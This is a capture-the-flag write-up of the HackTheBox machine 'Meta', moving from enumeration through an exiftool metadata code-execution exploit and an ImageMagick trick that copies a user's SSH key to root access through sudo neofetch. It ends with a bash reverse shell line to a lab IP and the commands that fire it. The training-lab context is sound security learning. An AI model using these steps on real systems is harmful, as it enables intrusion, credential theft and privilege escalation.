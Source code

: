 ```yaml
---
title: Meta HackTheBox Writeup
tags: [writeup,rest,python,hackthebox,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/1.png)

## Scanning
We run **nmap** on all ports with scripts and software versions. We see that the web service redirects to the domain *artcorp.htb*, we insert it in our */etc/hosts* file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/2.png)


## Enumeration
We tested access at both sites, but they lead to the same destination.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/3.png)

##### Viewing website:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/4.png)

We list three possible relevant users in the company:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/5.png)

We also see that they are promoting a new product called "*MetaView*" (the machine is called Meta, so it could be a clue).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/6.png)

We launch the **wfuzz** tool and enumerate a subdomain "*dev01.artcorp.htb*":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/7.png)

We access the website, find a link to the tool they are developing.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/8.png)


## Exploitation
There appears to be a file upload field and it displays metadata. 

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/9.png)

If we look at the result, it is very similar to the output of the **exiftool**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/10.png)

#### Exploit: [https://github.com/OneSecCyber/JPEG_RCE](https://github.com/OneSecCyber/JPEG_RCE)

We perform the same process of the exploit and insert a system command (*"ls -lna"*) in the image metadata:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/11.png)

We upload the image and see that the command is executed on the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/12.png)

Since we had to put all the code in the metadata, I found it easier to encode the payload in **base64**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/13.png)

We insert the **base64** payload, add decoding and execution on the victim machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/14.png)

We listen in with a **netcat** and gain access to the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/15.png)

We tried to read the user flag, but we do not have permissions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/16.png)

We run **pspy** and see that a script called "*convert_images.sh*" is executed:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/17.png)

#### Visualizing content:
The script takes the inserted content of the path "*/var/www/dev01.artcorp.htb/convert_images/*" and executes it with mogrify accepting any file:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/18.png)


So I checked the version and did some research:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/19.png)

So, I used the following file to copy the SSH private key of the user "*thomas*" and inserted it in a m3.svg file in the path "*/var/www/dev01.artcorp.htb/convert_images/*" and we only had to wait for the script to run it in a few minutes.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/20.png)

We wait a few minutes and see that we have obtained the "*id_rsa*" file of the user *Thomas*:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/22.png)

## Privilege Escalation
We connect via **SSH** with the private key and read the user flag.

We also see that we can run as the root user the "**neofetch**" binary.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/23.png)

We searched [gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/) and found ways to exploit this binary.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/26.png)

We can see that there is a configuration file for this binary in our folder.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/24.png)

We insert our reverse shell into our neofetch configuration file:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/25.png)

We put a **netcat** listening on port 443 and execute the two commands through the terminal. We will gain root access and read the flag.

### Explotation code:
```bash
# Reverse shell /home/thomas/.config/neofetch/config.php
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1"

# Terminal execution
export XDG_CONFIG_HOME="$HOME/.config"
sudo -u root /usr/bin/neofetch \"\" 
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Meta/27.png)




